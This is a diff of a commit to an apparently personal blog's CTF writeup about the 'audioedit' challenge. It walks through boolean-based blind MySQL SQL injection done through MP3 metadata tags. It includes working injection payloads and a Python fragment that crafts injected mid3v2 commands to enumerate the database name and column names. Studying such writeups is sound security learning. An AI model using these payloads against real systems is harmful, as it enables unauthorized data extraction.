

Before and after one commit to machinexa2/machinexa2.github.io, a Jekyll site: the page built from writeups/_posts/2020-09-19-audioedit.markdown, in a window 1280 px wide and 1400 px high, scrolled down 3754 px. Shown: the whole window, without its empty margins (230-1049 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
01:09:50 PM 09/24/2020

````diff
--- a/writeups/_posts/2020-09-19-audioedit.markdown
+++ b/writeups/_posts/2020-09-19-audioedit.markdown
@@ -54,7 +54,7 @@ while True:
 <br>
 Finally i found out what i was exploiting was boolean based blind SQLi. The injection point was `' or SQLCOMMAND or '`. For futher confirmation, i did this which i thought would eval to true and did evaluate to true `' and 2=2 or 99=99 or '`.
 # Exploing SQLi Blindly
-The insanity starts here. I DM'ed **Blindhero**, another of my nice mentor/friend for some tips on how to get dbms, tables.. He told me to use `SELECT CASE WHEN` which works on `Sqlite`. Unfortunately, it didnt work as it was `MySQL`. He also said about how to get database, table and so on. He constantly helped me debug my payload. Now, i started by very basic information gathering payload `' and 2=2 or (SELECT substring(version(),1,1)=5) or '`  returned 1,which is equivalent to boolean true.
+The insanity starts here. I DM'ed **Blindhero**, another of my nice mentor/friend for some tips on how to get dbms, tables.. He told me to use `SELECT CASE WHEN` which works on `Sqlite`. Unfortunately, it didnt work as it was `MySQL`. He also said about how to get database, table and so on. He constantly helped me debug my payload. Now, i started by very basic information gathering payload `' and 2=2 or (SELECT substr(version(),1,1)=5) or '`  returned 1,which is equivalent to boolean true.
 
 Then, moving forward to finding current database which was not easy but ok. Since, it was boolean based blind doing it by hand would take ages. So, i coded some exploit. Crafting query took time but eventually this `' and 2=2 or (SELECT substr(database(),1,1)='a')` returned true. Here's some of my code with explanation *(shitty code)*.
 ```python
@@ -95,7 +95,7 @@ class SQLExploit:
     def setcmd(self, character):
         #Finds database
         try:
-            command = 'mid3v2 -a "' + get_random_string(5) +   "' and 2=2 or (select substring(database()," + str(self.pos) + ",1)='" + character +"') or '" + '" testing.mp3'
+            command = 'mid3v2 -a "' + get_random_string(5) +   "' and 2=2 or (select substr(database()," + str(self.pos) + ",1)='" + character +"') or '" + '" testing.mp3'
             print(command)
             system(command)
         except Exception as E:
@@ -117,9 +117,9 @@ Unfortunately, its hard to include in payload thats why i did `substr()` method.
 I also modified `setcmd()` function slightly and exploiting gives me `audioedit` which is same as database name.
 
 Ah, i was tired and irritated. Took some caffeine again and got started. For numbers of columns in that table, querying information schema i used this:
-`' and 2=2 or (SELECT substring(count(*),1,1) FROM information_schema.columns WHERE table_name = 'audioedit')=1 or '`
+`' and 2=2 or (SELECT substr(count(*),1,1) FROM information_schema.columns WHERE table_name = 'audioedit')=1 or '`
 <br>
-So, columns number are 5, now what. Now, this part was very tough to debug. I just went mad trying to find out what was the problem. It took about 3 hours to find what was the problem. I crafted about 4-5 payloads, none of them were working.
+So, number of columns are 5, now what. Now, this part was very tough to debug. I just went mad trying to find out what was the problem. It took about 3 hours to find what was the problem. I crafted about 4-5 payloads, none of them were working.
 ```sql
 ' and 2=2 or (SELECT substr(column_name,1,1) FROM information_schema.columns where table_name='audioedit' limit 1 OFFSET 1)='a' or '
 ' and 2=2 or (SELECT((SELECT count(*) FROM information_schema.columns WHERE table_name = 'audioedit' and column_name LIKE 'xx%')=1)) or '
````
